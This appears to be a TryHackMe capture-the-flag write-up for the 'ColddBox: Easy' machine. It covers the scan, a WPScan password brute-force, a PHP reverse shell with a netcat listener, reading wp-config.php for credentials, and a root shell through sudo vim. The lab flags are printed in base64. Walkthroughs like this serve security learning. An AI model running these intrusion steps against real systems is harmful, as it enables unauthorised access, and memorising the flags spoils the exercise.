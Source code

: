 # ColddBox-WriteUp---TryHackMe
# ***Abdelhay Ferqass ***
**ColddBox: Easy**
*An easy level machine with multiple ways to escalate privileges. By Hixec.*

After running Nmap with the following command

`nmap -sC -sV -p- `

we get this:

`PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

ruuning ***Gobuster*** with this command :

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/FULL_PATH_TO_YOUR_WORDLIST`

will lead you into *`/wp-admin`*

let's run `WPScan` since it's a wordpress cms

`abdelhay@K4LI:/data/vpn$ wpscan --url http://MACHINE_IP/ -e u -P /usr/share/wordlists/rockyou.txt `


and just like this we got **c0ldd's password : 9876543210**

get a reverseshell in 

`https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

lunch a netcat listener with : 

`nc -nlvp 1234`

TCHA RAA!! we're www-data
establish your shell with 

`python -c 'import pty; pty.spawn("/bin/bash")'`

`export TERM=xterm`

let's check a very sensitive php file with :

`www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php`


let's use those creds for ssh connection
`abdelhay@K4ALI:/data/vpn$ ssh c0ldd@10.10.124.265 -p 4512
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

lets run   `sudo -l`

and we got 

`   (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp`


u can just run 

`sudo /usr/bin/vim`

and wirte this in

`:!/bin/bash`

and Congrats!! we're root now.

`c0ldd@ColddBox-Easy:~$  sudo /usr/bin/vim

root@ColddBox-Easy:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
root@ColddBox-Easy:/root# 
`







